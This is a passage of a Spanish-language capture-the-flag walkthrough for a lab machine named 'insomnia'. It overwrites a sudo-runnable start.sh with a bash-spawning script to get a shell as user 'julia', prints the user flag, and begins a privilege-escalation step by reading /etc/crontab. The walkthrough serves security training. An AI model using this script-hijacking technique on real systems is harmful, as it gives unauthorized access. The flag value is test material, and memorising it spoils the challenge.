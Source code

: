 Vemos que podemos modificar el `script` a nuestro gusto, por lo que haremos lo siguiente.

```shell
cd /var/www/html/
rm start.sh
nano start.sh

#Dentro del nano
#!/bin/bash

/bin/bash
```

Lo guardamos y le ponemos permisos de ejecuccion.

```shell
chmod +x start.sh
```

Ahora si lo ejecutamos de esta forma:

```shell
sudo -u julia bash /var/www/html/start.sh
```

Info:

```
julia@insomnia:/var/www/html$ whoami
julia
```

Vemos que ya seremos dicho usuario por lo que leeremos la `flag` del usuario.

> user.txt

```
~~~~~~~~~~~~~\
USER INSOMNIA
~~~~~~~~~~~~~
Flag : [c2e285cb33cecdbeb83d2189e983a8c0]
```

## Escalate Privileges

Despues de buscar un rato si leemos los `crontabs` que hay en el sistema, veremos lo siguiente:

```shell
cat /etc/crontab
```

Info:

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
```